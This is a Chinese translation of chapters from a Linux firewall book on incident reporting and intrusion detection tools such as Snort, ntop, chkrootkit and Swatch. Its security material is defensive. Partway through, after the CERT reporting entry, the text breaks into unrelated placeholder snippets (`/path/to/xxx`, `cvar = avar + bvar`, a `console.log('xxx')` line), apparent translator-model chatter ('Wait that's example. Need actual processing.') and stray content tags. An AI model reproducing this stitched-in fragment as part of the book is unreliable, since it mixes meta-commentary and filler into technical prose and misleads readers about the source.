- **为了提高所有相关方的意识和监控**——如果你向攻击站点报告事件，该站点希望会更仔细地监控其配置和用户活动。如果你向滥用中心报告事件，滥用人员可以比个人运营商更有力地联系远程站点，关注持续的活动，并更好地帮助已受感染的客户。如果你向安全新闻组报告事件，其他人可以更清楚地了解需要注意什么。

### 9.4.2 你可能会报告哪些类型的事件？

你报告哪些事件完全取决于你的容忍度、你认为不同探测的严重程度，以及你愿意在一个全球性、指数级增长的感染中投入多少时间。这归结为你如何定义“事件”这个术语。在不同的人心中，事件的范围可以从简单的端口扫描到尝试访问你的私人文件或系统资源，到拒绝服务攻击，到使你的服务器或整个系统崩溃，再到获得你系统的 root 登录权限：

- 拒绝服务攻击——任何形式的拒绝服务攻击都明显具有敌意。很难不将此类攻击视为针对个人的。这些攻击是电子形式的破坏、阻碍、骚扰和服务盗窃。由于某些形式的拒绝服务攻击是网络设备的固有性质使其成为可能，除了报告事件并阻塞攻击者的整个地址块外，你对某些形式的攻击几乎无能为力。

- 尝试重新配置你的系统——攻击者如果没有你机器上的 root 登录账户，就无法重新配置你的服务器，但他可能会修改你系统的内存中、与网络相关的表——或者至少会尝试。需要考虑的利用程序包括这些：

  - 通过 TCP 进行未授权的 DNS 区域传输到你的机器或从你的机器发出。有关区域传输的更多信息，请参阅 Albitz 和 Liu（O'Reilly 出版）的书籍 *DNS & BIND*。

  - 通过 ICMP 重定向或对 UDP 端口 520（用于 routed 或 gated）的探测来更改你内存中的路由表。（请记住，防火墙机器不应支持动态路由。）有关路由表利用程序的更多信息，请参阅 Cheswick 和 Bellovin（Addison-Wesley 出版）的书籍 *Firewalls and Internet Security: Repelling the Wily Hacker*。

  - 通过探测 UDP 端口 161（用于 `snmpd`）尝试重新配置你的网络接口或路由表。

- 尝试获取本地配置和网络拓扑信息——网络信息请求主要定向到 UDP 端口 161（用于 `snmpd`）。通过 TCP 端口 53 的 DNS 查询提供网络拓扑信息，对 UDP 端口 520（用于 routed 或 gated）的路由查询也提供此类信息。

- 尝试获取登录账户访问权限——对 telnet TCP 端口 23 和 ssh TCP 端口 22 的探测是显而易见的。不太明显的是对已知在历史上或当前可被利用的服务器的端口的探测。缓冲区溢出利用程序通常最终旨在执行命令并获取 shell 访问权限。`mountd` 利用程序就是这种例子。

- 尝试访问非公开文件——尝试访问私人文件，如 `/etc/passwd` 文件、配置文件或专有文件，会显示在你的 FTP 日志（`/var/log/xferlog` 或 `/var/log/messages`）和你的 web 服务器访问日志（`/var/log/httpd/error_log`）中。

- 尝试使用私人服务——顾名思义，你未向互联网开放的任何服务都是私人的。这些是通过你的公共服务器潜在可用的私人服务，例如尝试通过你的邮件服务器中转邮件。如果人们试图使用你的机器而不是他们自己的或他们的 ISP 的机器，他们很可能没安好心。中转尝试会显示在你的邮件日志文件（`/var/log/maillog`）中。

- 尝试在你的磁盘上存储文件——如果你托管了一个配置不当的匿名 FTP 站点，某人就可能建立被盗软件的仓库

(WAREZ) 在你的机器上。如果 `ftpd` 配置了记录文件上传日志，那么试图上传文件的尝试会记录在你的 FTP 日志中（`/var/log/xferlog`）。

- **试图使你的系统或单个服务器崩溃**——针对通过你的网站可用的 CGI 脚本的缓冲区溢出尝试，可能最容易通过 CGI 脚本日志文件中写入的错误信息来识别。其他关于错误数据的报告将出现在你的通用 syslog 文件（`/var/log/messages`）、你的通用守护进程日志（`/var/log/daemon`）、你的邮件日志（`/var/log/maillog`）、你的 FTP 日志（`/var/log/xferlog`）或你的安全访问日志（`/var/log/secure`）中。

- **试图利用特定的、已知的、当前可被利用的漏洞**——攻击者会在每个新的软件版本（以及旧版本）中发现新的漏洞。请密切关注来自 http://www.cert.org 和你 Linux 软件供应商的最新公告。

### 9.4.3 向谁报告事件？

关于向谁报告事件，你有几种选择：

- 违法站点上的 root、postmaster 或 abuse——投诉的明显地点是违法站点的管理员。通知系统管理员通常就足以处理问题。然而，这并不总是可能的，因为许多探测源自伪造的、不存在的 IP 地址。

- 网络协调员——如果 IP 地址没有 DNS 条目，联系该网络地址块的协调员通常会有帮助。协调员可以联系违法站点的管理员，或者让你直接与他们联系。如果 IP 地址不能通过 `host` 或 `dig` 命令解析，你几乎总是可以通过向 `whois` 数据库提供该地址来找到网络协调员。`whois` 命令硬编码在 ARIN 数据库中。通过 web 可以访问三个主要数据库：

  - ARIN——美国互联网数字注册机构（American Registry for Internet Numbers）维护西半球（美洲）的 IP 地址数据库。ARIN 位于 http://whois.arin.net/whois/arinwhois.html。

  - APNIC——亚太网络信息中心（Asia Pacific Network Information Centre）维护亚洲的 IP 地址数据库。APNIC 位于 http://www.apnic.net/apnic-bin/whois.pl。

  - RIPE——欧洲互联网地址注册机构（Réseaux IP Européens）维护欧洲的 IP 地址数据库。RIPE 位于 http://www.ripe.net/db/whois.html。

- 你的 ISP 滥用中心——如果扫描源自你的 ISP 的地址空间，你的滥用中心是联系的地方。对于源自其他地方的扫描，你的 ISP 也可以通过代表你联系违法站点来提供帮助。很有可能，你的机器并不是 ISP 网络上唯一被探测的机器。

- CERT——CERT 协调中心不太可能有资源响应一般的、普通的事件。CERT 的优先级更可能针对全球性问题、大型机构和互联网安全紧急情况。尽管如此，CERT 欢迎事件报告信息，用于其跟踪和统计报告工作。可以通过 http://www.cert.org/contact_cert/contactinfo.html 或电子邮件 cert@cert.org 联系 CERT。


进入`/path/to/xxx`目录，找到`xxx.json`。

在表达式`cvar = avar + bvar`中，加法运算符（`+`）将`avar`与`bvar`相加，得到它们的和`cvar`

在`List.of(arg0, arg1, arg2)`中，`List`接口的工厂方法`of()`接受一系列的元素，返回包含它们的只读列表。

之后我们这样调用`cmd`命令：`cmd arg0 arg1 arg2`。

```
if (condVar > someVal) {console.log("xxx")}
```
[/content]

Wait that's example. Need actual processing.

Let's output proper.

[content]
你的 Linux 供应商——如果由于发行版中的软件漏洞导致你的系统被入侵，你的供应商会希望知道此事，以便开发并发布安全升级。

### 9.4.4 你提供哪些信息？

事件报告必须包含足够的信息，以帮助事件响应团队追踪问题所在。在联系攻击来源的站点时，请记住，你的联系人可能是故意发起攻击的人。你从以下列表中包含哪些内容，取决于你联系的对象、你包含该信息的舒适度，以及可能生效的隐私和其他政策：

- 你的电子邮件地址
- 你的电话号码（如果合适）
- 你的 IP 地址、主机名和域名
- 涉及攻击的 IP 地址和主机名（如果可用）
- 事件的日期和时间（包括你相对于 GMT 的时区）
- 对攻击的描述
- 你是如何检测到攻击的
- 显示事件的典型日志文件条目
- 日志文件格式的描述
- 描述攻击性质和重要性的公告和安全通知的引用
- 你希望对方做什么（修复它、确认它、解释它、监控它，或让它知道）

### 9.4.5 你在哪里找到更多信息？

随着网络安全日益受到公众关注，与安全相关的网站数量正在迅速增长。`CERT` 和 `COAST` 仍然是获取安全信息的绝佳来源。位于 `http://www.sans.org/` 的 `SANS` 研究所和位于 `http://www.securityfocus.com/` 的 `Security Focus` 也都提供了及时且深入的安全信息。`Security Focus` 网站上的邮件列表特别优秀，我鼓励你不仅要阅读归档，还要订阅并参与列表讨论。

## 9.5 摘要

本章重点介绍了监控系统完整性和入侵检测。如果你怀疑系统可能已被入侵，可以参考本章列出的潜在问题指示。如果你看到其中一些指示并认定系统已被入侵，可以利用前面讨论的恢复步骤列表。最后，讨论了事件报告注意事项，并指出了你可能需要向谁报告事件。

第 10 章通过查看涉及入侵检测和系统测试的具体工具，来探讨本章所学内容的一些实施。

# 第 10 章

# 入侵检测工具

在上一章中，你学习了入侵检测和入侵响应的概念。尽管所使用的技术通常依赖于共同的一组方法，并导致许多相同的症状（如前一章所述），但很少有两个攻击是完全相同的。入侵检测工具正是通过利用这些共同的方法和症状来协助入侵分析人员的工作。

当寻找软件工具来帮助进行问题关联、诊断和解决时，入侵分析人员有很多选择。本章重点介绍入侵检测中使用的软件工具以及任何管理员工具箱中都可能有用的工具。本章从网络嗅探器开始，继续介绍用于检查 `rootkit` 的工具、文件系统检查器和日志文件监控。

## 10.1 入侵检测工具箱：网络工具

安全管理员和网络管理员的主要工具之一都是网络分析工具。这些包括网络嗅探器、入侵检测软件和网络分析仪。

网络嗅探器是一种被动监听网络接口接收和发送流量的软件。首选的主力嗅探器是 `TCPDump`。`TCPDump` 足够简单，初学者可以很快学会，同时又足够强大，能够为多种情况下的多种协议提供必要的功能。使用 `TCPDump`，可以以包括 ASCII 在内的多种格式查看流量，并使用表达式来精细调整要通过该工具查看的确切流量。

`TCPDump` 是手动且原始的入侵检测软件。如果你知道你要找什么，`TCPDump` 可以帮助你识别通过网络的异常流量。仅靠 `TCPDump` 本身，它不会知道攻击刚刚从它面前掠过；那是入侵分析人员（以及其他软件）的工作。然而，`TCPDump` 几乎总是成为调查活跃攻击的不可或缺的工具，因为它允许分析人员实时观看攻击。

`TCPDump` 在第 11 章“网络监控与攻击检测”中有深入介绍。在那里，你将发现关于正常协议活动的介绍，以及通过 `TCPDump` 的“眼睛”（或者说是“鼻子”）查看的一些利用案例。

当谈到监听网络并对流量执行某种级别分析的工具时，没有比 `Snort` 更好的了。`Snort` 是一种提供商级和企业级入侵检测

既广泛部署又成熟的软件。`Snort` 利用入侵特征的概念来工作。其理论是，许多攻击在网络上遵循相同的模式，或者看起来相同或非常相似。

考虑这样一个例子：假设在某个端口接收到一个数据包，其头部标志以特定方式设置。当这种情况发生时，它总是攻击的预兆或试图利用某个漏洞。可以说，这种特定的攻击因此具有一个特征，将其识别为恶意流量。这个特征，对于利用该漏洞是唯一的，然后可以被 `Snort` 等软件用来检测是否有利用该漏洞的尝试。`Snort` 可以根据此检测执行操作（或者不执行任何操作）。

`Snort` 相当强大，并且当与名为 `ACID` 的报告软件结合使用时，除了入侵检测的主要功能外，还可以生成复杂的报告。

`Ntop` 是网络分析软件，与根据协议、流量、主机和其他参数生成使用量报告的嗅探器不同。建议在网络的战略性位置使用 `ntop`，以建立网络正常流量流的基线。图 10.1 展示了 `ntop` 报告之一的示例页面。



图 10.1 `ntop` 报告的一个示例。

`Ntop` 只是这样的分析器之一。我选择在这里介绍 `ntop`，是因为它操作简单，能迅速投入使用。但是，我也推荐其他用于网络流量的分析软件。在其他分析软件中，`MRTG` 和 `Cricket` 是流量分析的两个极佳选择。

创建流量基线报告并保持其更新，不仅有助于发现异常（包括流量的意外增加和减少），还有助于跟踪何时可能需要新的带宽。正是这种双重用途——安全异常和带宽使用监控——使得流量分析极具价值。

为了使用 `Snort` 和 `TCPDump` 在大型网络上建立流量基线并有效地监控入侵，重要的是将这些工具放置在网络中的战略性位置。大多数大型网络（甚至中型和小型网络）使用交换机来传递流量。在考虑放置网络工具的位置时，理解交换机和集线器之间的区别很重要。

### 10.1.1 交换机和集线器以及为什么你要关心

在交换式网络中，给定的网络接口只会接收目的地为其自身的流量以及广播流量。在集线器网络环境中，网络接口接收所有流量，无论该流量是发往自身还是其他设备。这就是为什么交换式网络比集线器网络更快——不必要的流量不会发送到交换机的所有端口。

在交换式网络中，存在一些情况，网络接口可能会接收到所有流量或比仅接收自身流量更大的子集，例如当交换机配置为将流量镜像到特定端口时。在实践中这是可以做的，但这可能会导致交换机的性能问题，因为它现在必须将所有流量复制到两个端口而不是一个。有关更多信息，请参考你的交换机文档。例如，`Cisco Catalyst` 交换机将此功能称为“交换端口分析器”，或 `SPAN`。可以在 `http://www.cisco.com/warp/public/473/41.html` 找到有关 `SPAN` 的更多信息。

无论流量来源何处，如果它进入嗅探器运行的接口，流量就可以被捕获。在网络层面的关键在于，将嗅探器和相关的入侵检测软件放置在正确的位置。对于基于主机的流量嗅探，嗅探器的放置位置是显而易见的，就在主机本身。

### 10.1.2 嗅探器放置

网络嗅探器和流量分析软件的放置是成功分析流量的关键。在交换式网络中，需要配置交换机将镜像的所有流量输出到嗅探器的交换端口。第 11 章讨论嗅探器的放置。本质上，我建议将它们放置在尽可能多的点，特别是在靠近终止点（如防火墙）的地方。

### 10.1.3 ARPWatch

第 11 章还将讨论的另一项内容是 `ARPWatch`。`ARPWatch` 是用于监视网络上新设备的软件。`ARPWatch` 可以帮助审计网络上的设备，特别是无线网络。

## 10.2 Rootkit 检查器

`Rootkit` 是一种软件或一组软件，试图利用一个或多个漏洞，其目标是使攻击者获得提升的权限或对目标执行其他类型的攻击。通常，`Rootkit` 被技能较弱的攻击者使用，他们使用由另一个攻击者构建的软件，但并不真正理解底层的利用机制；他们只对结果感兴趣。

许多 `Rootkit` 不仅运行初始利用代码以赋予攻击者 `root` 权限，还试图掩盖或隐藏攻击已被发起的事实。它们通过删除日志文件或日志文件中的某些条目、植入特洛伊木马版本的程序以及采用其他手段来实现这一点。攻击者也可以将 `Rootkit` 串联起来以实现多层次的欺骗和可能的利用，也没有任何东西阻止他们这样做。

与以网络为中心的攻击类似，`Rootkit` 通常具有特征或留下其他痕迹来识别它们。这些痕迹和特征可能是上述日志文件的删除、一个或多个进程的存在，或特定于 `Rootkit` 软件或利用代码的系统其他更改。

与以网络为中心的攻击一样，也有软件用于搜索 `Rootkit` 的特征和痕迹。其中一个应用程序是 `Chkrootkit`。

### 10.2.1 运行 Chkrootkit

在运行 `Chkrootkit` 之前，你需要获取它。`Chkrootkit` 可以从 `http://www.chkrootkit.org/` 下载。下载后，`Chkrootkit` 需要解包和编译：

```
tar -zxvf chkrootkit.tar.gz
cd chkrootkit-<NNNN>
make sense
```

是的，代码示例中确实写着 `make sense`。虽然 `Chkrootkit` 是一个 shell 脚本，但编译代码会获得一些额外的功能。编译不是必须的，但由于它很快并增加了额外的检查级别，我建议这样做。具体来说，编译 `Chkrootkit` 将启用这些额外的检查：

- `ifpromisc`
- `chklastlog`
- `chkwtmp`


- `check_wtmpx`
- `chkproc`
- `chkdirs`
- `strings`

在本书使用的工具中，`Chkrootkit` 可能是最容易使用的。要运行 `Chkrootkit`，在 `chkrootkit` 源目录中，你只需输入：

```
./chkrootkit | less
```

你不需要将输出通过管道传递给 `less`，但输出量很大。所以如果你真的想阅读输出，你可能需要将其通过管道传递给某处——除非，当然，你有很大的回卷缓冲区。

由于运行 `Chkrootkit` 会产生大量输出，最好根据你的偏好将输出通过管道传递给 `more` 或 `less`。或者，你可以将输出重定向到一个文件：

```
./chkrootkit > output.txt
```

`Chkrootkit` 会输出许多行信息，告知你它当前正在检查什么以及检查的最终状态。输出看起来类似于：

```
Checking `amd`... not found
Checking `basename`... not infected
Checking `biff`... not infected
Checking `chfn`... not infected
Checking `chsh`... not infected
Searching for ShitC Worm... nothing found
Searching for Ome ga Worm... nothing found
Searching for Sadmin/IIIS Worm... nothing found
Searching for MonKit... nothing found
Searching for Showtee... nothing found
```

正如你可以从输出样本中看到，似乎没有检测到被植入木马的文件或 `Rootkit`。被感染文件或检测到 `Rootkit` 将类似于以下内容：

```
Checking `bindshell`... INFECTED (PORTS: 1524 31337)
```

即使 `Chkrootkit` 的输出似乎表明计算机感染了 `bindshell`，`Chkrootkit` 有时会产生误报。但是，如果你看到来自 `Chkrootkit` 的 `INFECTED` 输出，从你的最大利益出发，应假设 `Chkrootkit` 报告正确，并采取步骤减轻损害。

当工具检测到并报告了问题，但实际上没有问题时，就会发生误报。误报的潜在原因因报告事件发生的软件性质而异。误报不如漏报严重。当确实存在问题，但本应发现该问题的工具没有报告问题时，就会发生漏报。

假阳性（false positives）和假阴性（false negatives）不仅仅局限于计算领域。想象一下一个人去看医生并做了超声波扫描。根据扫描结果，医生报告这个人患有癌症。然而，经过进一步检查，发现初始报告是错误的。这就是一个假阳性的例子。尽管基于假阳性结果不必要地进行了额外的测试，但这仍然比假阴性要好得多，因为假阴性意味着癌症未被察觉且未得到治疗。

由于 `Chkrootkit` 使用计算机上的工具进行报告，它可能会报告假阴性。本节后面描述了一些解决此问题的方法。

## 10.2.2 如果 Chkrootkit 说计算机被感染怎么办？

如果 `Chkrootkit` 说你的计算机被感染，你首先要做的是告诉自己保持冷静。虽然你不应该这样假设，但 `Chkrootkit` 报告的是假阳性的可能性是存在的。如果 `Chkrootkit` 报告了感染，你应立即采取措施以减轻进一步的损害。

本书前一章讨论了事件响应。因此，在本章中重复同样的内容是多余的。然而，与所有此类工具一样，假阳性是固有的。出于自身利益，你应当严肃对待这一通知，但明智的做法也是尝试确定 `Chkrootkit` 是否报告了假阳性。

`Chkrootkit` 使用各种手段查找 `rootkit`。很多时候，`Chkrootkit` 根据已知的特洛伊化文件版本，在文件中寻找特定的签名。其他时候，`Chkrootkit` 寻找已知的由 `rootkit` 或其他攻击导致的开放端口。本部分前面强调的感染报告就是这种情况。`Chkrootkit` 报告说它认为计算机感染了 `bindshell rootkit`。它是基于发现两个开放的端口得出的这一结论，即 `1524` 和 `31337`。实际上，这些端口是开放的，是因为另一个安全工具 `PortSentry` 在这些端口上监听，希望捕获其他受感染的主机。我使用带有 `-i` 选项的程序 `lsof` 来确定监听这些端口的确切程序。

由于 `Chkrootkit` 报告了 50 多个 `rootkit`，你可能不会确切知道被某个特定 `rootkit` 感染的具体后果。此外，如果一个 `rootkit` 被运行，很可能有多个 `rootkit` 被运行，这使得清理变得更加困难。为了开始控制损害的过程，你可以上网搜索每一个单独的 `rootkit`，以确定其运行时采取的操作。但是，要意识到，根据定义，在 `rootkit` 成功运行后，攻击者已在计算机上拥有 `root` 权限，因此可能对系统造成了更大的损害，或者目前正在造成损害！

每当 `Chkrootkit` 报告感染时，你应严肃对待并始终假设最坏的情况。审慎的做法是立即将计算机从网络上断开，并采取步骤从 `rootkit` 中清理出来。实际上，事情很少如此简单明了。

## 10.2.3 Chkrootkit 及类似工具的限制

`Chkrootkit` 是一个强大且极其有用的工具，但它并非没有限制。这些限制并不真正特定于 `Chkrootkit`，而是任何试图执行此类复杂检查的工具的限制。其中一种限制，即假阳性，已经讨论过了。`Chkrootkit` 和其他此类工具的另一个限制是，它们默认依赖于 Linux 计算机本身包含的程序，而这些程序可能已被破坏或修改，以躲避 `Chkrootkit` 及相关实用程序等好奇眼的检测。

以下是 `Chkrootkit` 使用的一些程序列表；请记住，这些程序本身可能又依赖于 Linux 计算机上的库或其他东西，而这些也可能已被破坏：

- `awk`
- `cut`
- `echo`
- `egrep`
- `find`
- `head`
- `id`
- `ls`
- `netstat`
- `ps`
- `sed`
- `strings`
- `uname`

`Chkrootkit` 等工具以及类似工具的另一个限制是，它只能检测已报告且已为其配置过的 `rootkit`。总得有人不幸成为第一个在自己计算机上运行该 `rootkit` 的人。如果你碰巧就是那个人，`Chkrootkit` 帮不了你。不过，要意识到，计算机上可能会运行多个 `rootkit`，这使检测变得更容易一些。我意识到这是些许安慰。

## 10.2.4 安全地使用 Chkrootkit

在使用 `Chkrootkit` 等工具时，使用已知良好的系统二进制文件集是个好主意。许多 `rootkit` 会用它们自己的版本替换诸如 `/bin/ps` 等关键系统二进制文件。因此，如果你尝试使用 `ps` 来查找未知进程，你可能无法看到它们，因为 `ps` 的特洛伊版本会隐藏它们。

`Chkrootkit` 提供了两种解决此问题的方法。第一种方法涉及使用已知良好的二进制文件集，可能从 CD-ROM 挂载。第二种方法涉及将可能被破坏的硬盘物理挂载到另一台计算机上，然后从那里运行检查。第二种方法更适合在成功攻击后的取证工作，而不是用于调查可能的攻击。

挂载包含已知良好二进制文件版本的 CD-ROM 是使用 `Chkrootkit` 进行彻底检查的安全且简单的方法。此方法假设你有一个已经包含正确二进制文件的 CD-ROM。要使用 CD-ROM 副本的二进制文件运行 `Chkrootkit`，首先必须挂载 CD。这通常使用 `mount` 命令完成，尽管有时它是自动挂载的。在大多数现代 Linux 发行版中挂载 CD-ROM 驱动器的一种常见方法如下所示：

```bash
mount -t iso9660 /dev/cdrom /mnt/cdrom
```

`Chkrootkit` 使用 `-p` 选项来定义它应使用的二进制文件的位置。因此，如果 CD-ROM 挂载在 `/mnt/cdrom`，你应像这样运行 `Chkrootkit`：

```bash
./chkrootkit -p /mnt/cdrom
```

运行 `Chkrootkit` 的另一种方法是将可能被破坏的硬盘物理挂载到另一台计算机上，并针对该驱动器的内容运行 `Chkrootkit`。这是通过为 `Chkrootkit` 指定一个替代的“root”目录来实现的。假设第二个驱动器挂载在 `/mnt/drive2`：

```bash
./chkrootkit -r /mnt/drive2
```

## 10.2.5 何时应运行 Chkrootkit？

你可以随时运行 `Chkrootkit`。`Chkrootkit` 没有推荐的运行时间表。我个人在不规则的间隔运行它以娱乐，但话说回来，我就是那种人。每当你在计算机上或可能与之交互或位于同一网络块的其他计算机上观察到任何可疑活动时，你绝对应该运行 `Chkrootkit`。每次运行 `Chkrootkit` 时，你都应该跳出到网站 `http://www.chkrootkit.org/` 检查是否有新版本的工具。在你使用的版本之后，可能已添加了新的 `rootkit` 签名或附加功能。


你也可以通过 cron 每晚运行 Chkrootkit。然而，我不建议依赖这样的报告完全准确，但它可以提供对需要您关注的异常的早期警告。通过 cron 运行 Chkrootkit 可能看起来像这样：

```bash
0 4 * * * /path/to/chkrootkit
```

显示出来的 cron 条目将在每天早上 4:00 运行 Chkrootkit。Root（cron 作业输出的接收者）每天早上都会收到一份详细报告，说明 Chkrootkit 的运行情况。

## 10.3 文件系统完整性

rootkit 检查器（如 Chkrootkit）与文件系统完整性软件相辅相成。文件系统完整性软件监视计算机上的重要文件，并根据这些文件的变化生成报告。管理员随后可以监视这些文件的意外更改。例如，如果像 `/etc/resolv.conf` 甚至 `/etc/shadow` 这样的文件在没有明显原因的情况下发生变化，管理员可以采取行动。

两个流行的文件系统完整性工具是 Tripwire 和 AIDE。Tripwire 长期以来一直是管理员的选择。然而，Tripwire 的许可证发生了变化，从而使得该软件的商业使用变得可疑，甚至使得软件的开源性质变得可疑。AIDE 作为替代品被开发出来。与此同时，Tripwire 的许可证又改回来了，因此截至撰写本文时，Tripwire 又是传统的开源软件包。然而，由于许可证的变化，我不打算在这本书中介绍 Tripwire。我不想在写作之时和你阅读之时之间许可证再次发生变化。

## 10.4 日志监控

监视日志文件用于监视可能表明攻击的异常。虽然此方法已被成功使用，但它可能产生大量数据，并在大型网络上变得繁琐。

当与其他工具结合时，日志监控可以发挥作用。例如，在几个关键系统上使用日志监控可以减少接收的数据量。然而，此措施和其他类似措施实际上是权宜之计，因为它们对确保未监控系统的安全性几乎毫无帮助。

有许多可用的软件包用于监视日志文件。其中三个软件包包括 Logsnarter、Swatch 和 Logcheck。有关每个软件包的更多信息可以在它们的各自网站上找到，或者如果你的发行版将它们包含为可用软件包，也可以在你的系统文档中找到。我这里将简要介绍 Swatch，只是让你领略一下这些类型工具的一些功能。

### 10.4.1 Swatch

Swatch 可以作为许多 Linux 发行版的附加软件包提供，或者可以从 http://swatch.sourceforge.net/ 下载。Swatch 高度可配置，并且可以基于匹配执行许多操作。

Swatch 以多种模式工作，包括一种称为单程（single-pass）的模式，该模式让程序解析一次日志文件，搜索匹配项并根据这些匹配项采取行动。另一种模式让 Swatch 对日志文件执行运行中的 `tail -f` 以寻找匹配项。默认情况下，Swatch 监视 `/var/log/messages`，但可以配置为监视任何文件甚至套接字。

由于 Swatch 如此强大，我觉得我无法在一本关于 Linux 防火墙的书中对它公正评价。我邀请你阅读更多关于 Swatch 的内容。目前，我将提供一个监控的食谱。

## 使用 Swatch 监控 SSH 登录失败

在 2004 年和 2005 年，针对运行 SSH 的服务器出现了多次暴力破解登录尝试。这些尝试通常除了造成一些烦扰外，并没有带来严重后果。然而，监控日志文件中这些以及其他针对服务器的暴力破解攻击尝试通常很有用。Swatch 可以配置为在记录到此类尝试时发送电子邮件（或执行许多其他操作）。本节展示了如何在记录认证失败时发送电子邮件警报。

当登录尝试失败时，系统会记录类似下面这样的行：

```text
Jun  7 17:09:10 ord sshd[3434]: error:
  PAM: Authentication failure for root from 192.168.1.10
```

这一行中包含许多独特的项目，但我选择查找“Authentication failure”（认证失败）这几个词，因为这是我希望收到警报的类型。Swatch 的语法简单得令人生畏，但却可能极其强大。这是因为 Swatch 使用正则表达式语法进行匹配。在这种情况下，匹配非常简单。只需使用标题恰如其分的 `watchfor` 配置指令告诉 Swatch 要监控什么，然后在检测到匹配项时给它一个或多个要执行的操作，这就完成了 Swatch 配置。例如，要查找“Authentication failure”并发送电子邮件，Swatch 配置包含以下内容：

```text
watchfor /Authentication failure/
  mail
```

这两行保存在 `~/.swatchrc` 中。在这种情况下，我以 root 身份这样做，因为 Swatch 需要对此日志文件的读取访问权限。

接下来，启动 Swatch 并告诉它要监控哪个文件。同样，默认值是 `/var/log/messages`。但是，我是在 Debian 系统上创建这个示例的，因此默认情况下认证失败日志记录在 `/var/log/auth.log` 中。因此，我将 Swatch 指向正确的配置文件并启动它：

```bash
swatch -tail-file=/var/log/auth.log
```

现在，Swatch 将监控日志文件中的“Authentication failure”一词，如果找到这些词，就会向 root 发送电子邮件。

如前所述，警报有多种选项，包括执行其他程序。这些程序可以是 shell 脚本或实际上任何东西，因此可能性几乎是无限的。

## 10.5 如何避免被入侵

对于一个拥有无限资源和无限时间的攻击者，几乎没有什么能阻止他。从 DoS 攻击到 rootkit 再到物理攻击，如果某人极其渴望获取你的数据，在其他没有约束的情况下，他很可能能够获取到这些数据。话虽如此，你可以做很多事情来降低你面对大多数风险暴露程度。

本章乃至整本书都在任何层面上都不涉及*物理*攻击。如果攻击者就在现场，并可以简单地拿走包含数据的计算机或硬盘，那么任何程度的防火墙都无济于事。如果攻击者对持有数据的计算机或设备拥有物理访问权限，攻击者可以窃取数据本身，或者可能植入其自己的恶意特洛伊软件。

本节给出了一些通用的*经过实战检验*的建议，以保持系统安全。这里给出的建议绝非包罗万象；它们仅仅是我提出的建议，有助于确保系统完整性。

### 10.5.1 经常加固安全

确保计算环境安全是一个持续的过程，而不是一个终点。当你努力保护系统和网络时，新的漏洞不断被发现，新的软件也在开发中。当涉及到保护计算机环境时，并没有一种魔法子弹能让你一次性完成所有工作。本书致力于通过使用基于 Linux 构建的防火墙来保护网络及其系统。本章介绍了纵深防御进程的一些其他方面。

使用可用的工具，例如本章中已经介绍的那些工具，你可以保护计算机及其所在的网络。当然，你可以采取其他步骤来进一步增强环境的安全性。

#### 内核增强

你可以通过 Linux 内核做一些事情来增强其安全性。自然，你在操作系统最低层级所做的任何事情，只会有助于提升其上方那些组件的安全性。

#### Bastille Linux

Bastille Linux 是一个帮助自动化系统安全流程并报告系统安全状况的程序。Bastille Linux 实施了许多安全最佳实践，这些实践通常需要通过阅读大量资料和访问无数网站才能找到。所有这些最佳实践都是通过类似向导的界面（命令行或 GUI）来实施的，其中包含大量关于所询问内容及其重要性的信息。

Bastille Linux 甚至会对某些功能给出建议。与许多试图给出建议的工具不同，Bastille 通过解释提议更改背后的理由以及如果选择使用该步骤可能产生的影响，从而正确地做到了这一点。

最后，Bastille 还包括一个撤销过程，以便你可以快速撤销任何可能导致问题的更改。经验丰富的 Linux 管理员和 Linux 新手都欢迎 Bastille。一些 Linux 发行版包含 Bastille 作为包。关于 Bastille Linux 的更多信息可以在 http://www.bastille-linux.org/ 找到。

### 10.5.2 经常更新

尽管这是本书中任何任务中最不费力的，但保持计算机系统最新鲜往往是系统安全中经常被忽视的一个方面。确保计算机被入侵的最好方法之一就是让它运行而不进行更新。

Linux 和开源软件最大的优势之一就是安全性。有人试图辩称，这种安全性的实现是因为开源软件不那么流行。当然，这完全忽略了市场份额统计数据，例如 Netcraft 的 Web 服务器调查显示 Apache 占 Web 服务器市场近 70% 的份额。

这种安全优势的一部分来自于开源社区在安全披露后数小时内提供补丁的能力。即使在未事先披露的安全问题中，通常也能在同一天获得补丁。在修复可能需要一点时间的情况下，社区历来非常擅长提供变通方法以缓解甚至完全消除漏洞。


这两个特性——快速修复和快速变通——都有利于你维护系统安全。然而，为了利用其中任何一个，你需要通过监控邮件列表和安全网站来跟踪它们的可用性。大多数主要 Linux 供应商都提供仅公告的安全邮件列表，订阅者在漏洞披露时会收到电子邮件。此外，还有其他行业邮件列表可以帮你了解安全问题的最新情况。

保持软件最新鲜是系统安全的重要组成部分。我建议在明显注意正在更新的软件以确保更新不会破坏运行中的系统的前提下，尽可能频繁地进行更新。

### 10.5.3 经常测试

仅仅经常加固安全和经常更新是不够的，尽管这两项确实对确保安全环境有长足的贡献。纵深防御的另一个基本要点是经常测试。测试确保安全策略得到执行，并且这些安全策略的实施是成功的。

渗透测试是系统安全的另一个重要方面。渗透测试（或称 pen-testing）是一个过程，通过尝试多种攻击向量来测试系统的安全性，以使系统表现出意外行为。渗透测试的定义故意模糊，以便不限于特定类别或类型的攻击。

